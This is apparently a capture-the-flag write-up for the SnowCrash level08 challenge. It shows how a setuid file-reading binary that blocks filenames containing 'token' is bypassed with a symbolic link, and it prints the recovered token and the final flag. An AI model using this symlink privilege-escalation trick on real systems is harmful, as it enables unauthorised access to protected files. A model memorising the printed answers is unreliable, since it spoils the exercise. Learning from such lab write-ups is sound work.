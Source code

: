 ## Exploring the exercice

```bash 
$ ls -la
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

We have a binary setuid/getuid and a file token.

Let's do some tests

```bash 
$ ./level08 
./level08 [file to read]

$ ./level08 token
You may not access 'token'

$./level08 .profile 
level08: Unable to open .profile: Permission denied

$ echo 'coucou' > /tmp/test.txt
$ ./level08  /tmp/test.txt
coucou
```
So we have an executable which displays the content of the file. We cannot call it on token. 
Let's see why : 

```bash 
$ strings ./level08 
[...]
token
You may not access '%s'
[...]
```

```bash 
$ ltrace ./level08 token 
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                                            = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)                                        = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
```


The strstr function is called, this function checks if the string "token" (second argument) is a substring of the input filename (first argument).


Since the program checks only the filename but not the content we can create an alias file for token using a symbolic link (ln -s). 

```bash 
$ ln -s ~/token /tmp/new
$ ./level08 /tmp/new
quif5eloekouj29ke0vouxean
```


```bash 
$ su flag08
Password: 
Don't forget to launch getflag !
$ flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
